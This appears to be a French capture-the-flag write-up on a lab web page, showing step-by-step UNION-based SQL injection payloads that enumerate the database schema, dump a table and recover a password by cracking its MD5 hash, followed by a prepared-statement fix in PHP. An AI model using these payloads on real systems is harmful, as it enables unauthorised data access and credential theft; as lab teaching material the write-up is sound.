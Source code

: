 # Vulnérabilité

Page member: `http://192.168.1.19/?page=member`

Premièrement, il faut tenter de savoir si il y a potentiellement une faille sql pour cela il faut faire cette requête SQL:

`1=1`

Une fois qu'on sait qu'il y a une faille sql, on va chercher a trouver toutes les tables de la base de données, pour cela on va faire une simple requête sql 

`1=1 UNION SELECT table_name, table_schema FROM information_schema.tables;`

Dans le résultat, on trouve une table nommée `list_images`avec un schéma `Member_images`

Puis on peut lister toutes les colonnes de toutes les tables avec cette injection : 

`1=1 UNION SELECT table_name, column_name FROM information_schema.columns;`

On récupère ainsi 4 colonnes qui nous intéressent : 

`id, url, title, comment`


On va donc récupérer toutes les informations de la table avec la méthode concat :

`1=1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM Member_images.list_images;`

On trouve le hash du mot de passe `1928e8083cf461a51303633093573c46`

J'utilise `https://md5decrypt.net/` pour décrypter le hash et on retrouve alors le mot de passe d'origine `albatroz`.
Enfin on encrypte en SHA256 (https://md5decrypt.net/Sha256) et on obtient le flag.



# Solution

Utilisez des requêtes préparées et des instructions paramétrées : Cette technique consiste à utiliser des instructions SQL avec des paramètres qui sont automatiquement échappés par PHP. Cela peut être réalisé avec les extensions PDO ou MySQLi en PHP.

Voici un exemple utilisant PDO :

```
$stmt = $pdo->prepare('SELECT * FROM users WHERE email = :email AND status=:status');
$stmt->execute(['email' => $email, 'status' => $status]);
```